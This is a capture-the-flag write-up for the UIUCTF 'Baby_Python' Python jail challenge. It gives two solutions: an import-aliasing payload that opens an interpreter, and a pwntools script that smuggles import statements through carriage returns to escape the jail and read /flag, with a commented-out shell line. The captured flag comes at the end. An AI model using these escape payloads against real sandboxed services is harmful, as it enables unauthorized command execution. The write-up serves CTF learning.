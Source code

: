 # Baby_Python
author: tow_nater
## Description
here's a warmup jail for you :) Python version is 3.8.10 and flag is at /flag

Note: this chal is not actually broken, just thought it would be a funny joke

nc baby-python.chal.uiuc.tf 1337
## Solution (s)
I wasn't able to solve this challenge during the ctf, but found it pretty interesting. Apparently, there were a couple of ways to do this:

### Solution 1
Apparently, the payload ```from code import interact as exit``` gives you a python terminal with which you can run:
```
import os
os.system("cat /flag")
```
<img src ="https://user-images.githubusercontent.com/86171033/128443161-2c92651c-a5f5-419c-9316-9283bf97d29b.png" width=600 alt="image"/>


### Solution 2
credits to k3v1n on the UIUCTF discord
```
#! /usr/bin/env python3
from pwn import *

r = remote('baby-python.chal.uiuc.tf', 1337)

r.sendline(b'import challenge')

r.sendline(b'from builtins import input as bool\rimport challenge as bad\rfrom importlib import reload as exit\rfrom builtins import input')
# r.sendline(b'import os; os.system("sh")')
r.sendline(b'import os; os.system("cat /flag")')
r.sendline(b'')

r.interactive()

```
flag: ```uiuctf{just_kidding_about_the_chal_being_broken_lol_11a7b8}```

